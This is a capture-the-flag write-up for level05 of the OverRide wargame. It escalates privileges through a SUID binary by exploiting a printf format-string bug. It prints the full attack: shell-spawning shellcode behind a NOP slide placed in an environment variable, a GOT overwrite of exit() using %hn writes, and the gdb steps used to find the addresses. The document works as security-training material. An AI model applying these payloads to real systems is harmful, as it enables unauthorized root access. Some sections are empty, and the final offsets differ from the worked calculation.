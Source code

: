 # Level 5

## Vulnerability



## Context

We find a binary with owner ```level05``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

When run ...!!!!!
```
level05@OverRide:~$ ./level05
hello
hello
```

## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. 

However we do see a call to ```printf()```, which is vulnerable to string format exploits. 

We also see a call to ```exit()```.

### Build exploit

Let's start by checking our buffer position with a printf() string format exploit.
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

Unfortunately, we see the stack is non-executable. 

We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. 
Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide, so let's make the address of our shellcode ```0xffffd822 + A (10 bytes) -> 0xffffd826```.

We are going to insert this malicious code using a ```printf()``` format string attack. 

Unfortunately, ```0xffffd826``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957094 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). 
Note: reverse order for little endian! 
```
0xffffd826
0xd826 -> 55334
0xffff -> 65535
```

We are going to use our format string to overwrite the call to ```exit()```. 
The GOT address of ```exit()``` is ```0x80497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Let's sum it all up! 

So our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```

- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55334 - 8 bytes (of characters already written)``` -> ```55326```
      - ```65535 - 55326 bytes (of characters already written)``` -> ```10209```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"
```

Let's try it. 
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55326d%10$hn" + "%10209d%11$hn")'; cat) | ./level05
```

Why we can't just do this (with a %u modifier) is beyond me!
```(python -c 'print "\xe0\x97\x04\x08" + "%4294957094u" + "%10$n"'; cat) | ./level05```

```(python -c 'print "\xe0\x97\x04\x08" + "%4294957090u" + "%10$n"'; cat) | ./level05```


```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55397d%10$hn" + "%10130d%11$hn")'; cat) | ./level05
```


## Recreate Exploited Binary



